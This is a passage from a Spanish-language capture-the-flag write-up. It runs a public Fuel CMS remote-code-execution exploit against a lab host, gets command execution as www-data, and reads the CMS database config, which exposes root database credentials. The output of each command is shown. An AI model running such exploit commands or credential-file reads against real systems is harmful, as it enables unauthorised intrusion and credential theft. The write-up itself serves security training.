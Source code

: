 Vemos que el único parámetro necesario es la url del CMS, así que lo indicamos. 

Al ejecutar el exploit comprobamos que tenemos ejecución remota de código, empleamos el comando `whoami` para verificar que usuario somos y comprobamos que somos `www-data`.

```bash
❯ python3 50477.py -u http://10.10.226.203
[+]Connecting...
Enter Command $whoami
systemwww-data
```

Comprobamos en qué ruta nos encontramos actualmente y listamos los archivos y directorios.

```bash
Enter Command $pwd
system/var/www/html

Enter Command $ls  
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```

Si recordamos, en la página principal del CMS se nos indicaba el archivo `fuel/application/config/database.php` que contiene un usuario y una contraseña potencial.

```bash
Enter Command $cat fuel/application/config/database.php

[...]

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

[...]
```
